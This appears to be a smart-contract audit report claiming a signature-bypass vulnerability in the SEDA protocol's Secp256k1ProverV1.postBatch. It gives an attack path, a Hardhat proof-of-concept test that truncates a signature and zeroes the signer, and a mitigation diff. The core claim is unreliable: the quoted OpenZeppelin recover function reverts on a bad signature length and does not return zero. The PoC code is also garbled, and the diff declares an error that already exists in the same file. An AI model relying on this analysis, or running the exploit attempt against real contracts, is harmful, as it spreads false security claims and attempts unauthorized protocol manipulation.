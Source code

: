 Festive Obsidian Sparrow

Medium

# Proper checks are not concluded in the Contract `Secp256k1Prover.sol:116` function `postBatch` there is vulnerability in `_verifySignature()` internal function call. Cause of this `ECDSA.sol` contract functionality.

### Summary

In this internal function `_verifySignature()` we somehow managed to get `ECDSA.recover(messageHash,signature) == address(0)` and at same time `signer == address(0)` that would verify Signature but it not true , this vulnerability allow malicious attacker to prove their request.

But How we get `0` from this `ECDSA.recover(messageHash,signature)`, in openzeppelin that is vulnerable , Because he have to check it does not throw any error, On error this functionality return `0` . By this we can drain down whole protocol.if the signature length wasn't 65 bytes.

https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-evm-contracts/contracts/provers/Secp256k1ProverV1.sol#L116

https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-evm-contracts/contracts/provers/Secp256k1ProverV1.sol#L215

Check are not included in internal function for ESCDA.sol contract functionality

```solidity
function tryRecover(
        bytes32 hash,
        bytes memory signature
    ) internal pure returns (address recovered, RecoverError err, bytes32 errArg) {
        if (signature.length == 65) {
            bytes32 r;
            bytes32 s;
            uint8 v;
            assembly ("memory-safe") {
                r := mload(add(signature, 0x20))
                s := mload(add(signature, 0x40))
                v := byte(0, mload(add(signature, 0x60)))
            }
            return tryRecover(hash, v, r, s);
        } else {
            return (address(0), RecoverError.InvalidSignatureLength, bytes32(signature.length));
        }
    }
```
```solidity
    function recover(bytes32 hash, bytes memory signature) internal pure returns (address) {
        (address recovered, RecoverError error, bytes32 errorArg) = tryRecover(hash, signature);
        _throwError(error, errorArg);
        return recovered;
    }
```

### Root Cause
Check are not included in internal function for `ESCDA.sol` contract functionality

### Internal Pre-conditions

None

### External Pre-conditions

None

### Attack Path

1. Attacker set Signature Length other than 65 bytes
2. `validatorProofs[i].signer` equal to `address(0) ` By this it pass all check

By this attacker validates a new batch. 


### Impact

By this we verify a large amount of signature and can reach consensus, This consensus can Damage the whole protocol and Halt down the Protocol.

### PoC

```javascript
   it('batch Passed signature length is not 65 bytes', async () => {
      const { prover, wallets, data } = await loadFixture(deployProverFixture);

      const { newBatch, signatures, newBatchId } = await generateAndSignBatch(wallets, data.initialBatch, [0]);

      const [batchSender] = await ethers.getSigners();

      signatures[0] = signatures[0].slice(0, 64);
      [(data.validatorProofs[0]).signer] = "0x0000000000000000000000000000000000000000";

      await expect(
        (prover.connect(batchSender) as Secp256k1ProverV1).postBatch(newBatch, signatures, [data.validatorProofs[0]]),
      )
        .to.emit(prover, 'BatchPosted')
        .withArgs(newBatch.batchHeight, newBatchId, batchSender.address);
   });

   // This will pass the test case But in it reverted by invalid Signature
   it('rejects batch with invalid signature if signature length is not 65 bytes After Mitigation', async () => {
      const { prover, wallets, data } = await loadFixture(deployProverFixture);

      const { newBatch, signatures, newBatchId } = await generateAndSignBatch(wallets, data.initialBatch, [0]);

      const [batchSender] = await ethers.getSigners();

      signatures[0] = signatures[0].slice(0, 64);
      [(data.validatorProofs[0]).signer] = "0x0000000000000000000000000000000000000000";

      await expect(
        (prover.connect(batchSender) as Secp256k1ProverV1).postBatch(newBatch, signatures, [data.validatorProofs[0]]),
      ).to.be.revertedWithCustomError(
        prover,
        'InvalidSignature',
      );
   });

```

### Mitigation

So required Check are to set in the internal function of the contract `Secp256k1Prover.sol:215`
```diff
function _verifySignature(
        bytes32 messageHash,
        bytes calldata signature,
        address signer
    ) internal pure returns (bool) {
+        address recovered = ECDSA.recover(messageHash, signature);
+        require(recovered != address(0), InvalidSignature());
+        return  recovered == signer;
-         return ECDSA.recover(messageHash, signature) == signer;
    }
```


Also add error to `ProverBase.sol` contract,

```diff
   // ============ Errors ============

    /// @notice Error thrown when batch height <= lastBatchHeight, enforcing sequential processing
    error InvalidBatchHeight();

    /// @notice Error thrown when signature verification fails for a validator's signed batch
    error InvalidSignature();

    /// @notice Error thrown when validator's Merkle proof fails verification against current validator set
    error InvalidValidatorProof();

+   /// @notice Error thrown when validator's signature is Invalid or address(0)
+    error InvalidSignature();

    /// @notice Error thrown when signatures.length != validatorProofs.length in batch submission
    error MismatchedSignaturesAndProofs();
```